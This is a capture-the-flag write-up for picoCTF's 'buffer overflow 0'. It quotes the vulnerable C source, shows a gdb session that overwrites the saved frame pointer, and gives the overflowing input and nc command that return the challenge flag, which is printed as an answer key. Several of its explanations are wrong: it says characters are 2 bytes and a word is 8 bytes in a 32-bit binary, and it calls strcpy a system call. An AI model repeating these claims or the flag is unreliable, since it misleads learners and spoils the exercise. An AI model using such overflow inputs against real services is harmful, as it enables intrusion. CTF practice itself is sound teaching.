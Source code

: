 # `buffer overflow 0`

https://play.picoctf.org/events/70/challenges/challenge/257

## Description

Smash the stack

Let's start off simple, can you overflow the correct buffer? 

The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). 

And connect with it using:

```bash
nc saturn.picoctf.net 53935
```


## Exploiting

When we run the program for the first time, we see that it's requesting us to create a flag in the directory. Let's do that:

```bash
./vuln
Please create 'flag.txt' in this directory with your own debugging flag.

# As requested above
echo "picoCTF{some_flag}" >> flag.txt
```

After the flag is there, we can see that the program asks us for an input

```bash
./vuln
Input: 
```

If we look at what happens to this input in the source code, we can see that the input is copied into a variable character buffer of size `100` and then passed onto the `vuln` function:

```c
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1); 
vuln(buf1);
```

In the `vuln` method, we see that this buffer is then copied into another variable character of size `16`:

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

So we know that we can overflow the buffer if our input is larger than `16`.

Let's run the program with `gdb` and take a closer look at the program.

```
gdb ./vuln

(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08049e3f <+0>:     endbr32 
   0x08049e43 <+4>:     push   %ebp
   0x08049e44 <+5>:     mov    %esp,%ebp
   0x08049e46 <+7>:     push   %ebx
   0x08049e47 <+8>:     sub    $0x10,%esp
   0x08049e4a <+11>:    call   0x8049f53 <__x86.get_pc_thunk.ax>
   0x08049e4f <+16>:    add    $0x9b1b1,%eax
   0x08049e54 <+21>:    pushl  0x8(%ebp)
   0x08049e57 <+24>:    lea    -0x14(%ebp),%edx
   0x08049e5a <+27>:    push   %edx
   0x08049e5b <+28>:    mov    %eax,%ebx
   0x08049e5d <+30>:    call   0x8049030
   0x08049e62 <+35>:    add    $0x8,%esp
   0x08049e65 <+38>:    nop
   0x08049e66 <+39>:    mov    -0x4(%ebp),%ebx
   0x08049e69 <+42>:    leave  
   0x08049e6a <+43>:    ret
```

We can see that there's a system call at the 30th bit from the beginning of the `vuln` function (`0x08049e5d <+30>:    call   0x8049030`). 
This is likely the location of the `strcpy` instruction where the overflow occurs. Let's put a breakpoint right after this system call to look at the stack and run the program with 20 `U`s:

```
(gdb) b * vuln +35          
Breakpoint 1 at 0x8049e62: file vuln.c, line 18. 

(gdb) r 
Starting program: ~/ctf/pico_2022/binary_exploitation/buffer_overflow_0/vuln
Input: UUUUUUUUUUUUUUUUUUUU

Breakpoint 1, 0x08049e62 in vuln (input=0xffffcae8 'U' <repeats 20 times>)
    at vuln.c:18

```

Let's take a look at the stack:

```
(gdb) i r esp
esp            0xffffcac0          0xffffcac0
(gdb) i r ebp
ebp            0xffffcadc          0xffffcadc
```

So we can see that the stack starts at `0xffffcac0` and ends at `0xffffcadc` meaning the stack size is 1C (in hex) or 28 (decimal).

If we print out the stack contents, we can see that we're one word (8 bytes) short of overwriting the `EBP`:

```
(gdb) x/20x $esp
0xffffcac0:     0xffffcac8      0xffffcae8      0x55555555      0x55555555
0xffffcad0:     0x55555555      0x55555555      0x55555555      0xffffcb00

(gdb) x/x $ebp
0xffffcadc:     0xffffcb00
```

So we need to increase the fuzzing by 4 characters (each character is 2 bytes) so we can overwrite the whole stack. Let's change the 4 letters from `U` to `A` so it's easier to see when examining memory:

```
(gdb) r 

The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: ~/ctf/pico_2022/binary_exploitation/buffer_overflow_0/vuln 
Input: UUUUUUUUUUUUUUUUUUUUAAAA 

Breakpoint 1, 0x08049e62 in vuln (input=0xffffcae8 'U' <repeats 20 times>, "AAAA") at vuln.c:18
18        strcpy(buf2, input);

(gdb) x/20x $esp
0xffffcac0:     0xffffcac8      0xffffcae8      0x55555555      0x55555555
0xffffcad0:     0x55555555      0x55555555      0x55555555      0x41414141
0xffffcae0:     0x08049f00      0xffffcae8      0x55555555      0x55555555

```

We can see from the output that the `EBP` has `0x41414141` (`41` is ASCII code for `A`).

Now that we overwrote/oveflowed the stack, we can overwrite the return address (which is the next `word` after the `EBP`). To find this address, we first need to check where the flag is actually printed.

Reviewing the source code, we see that it happens on the first line after the signal handler function is invoked (line 11):

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  ...
}
```

We can get the flag by having a buffer larger than 64 bytes:

```bash
nc saturn.picoctf.net 53935
Input: UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
```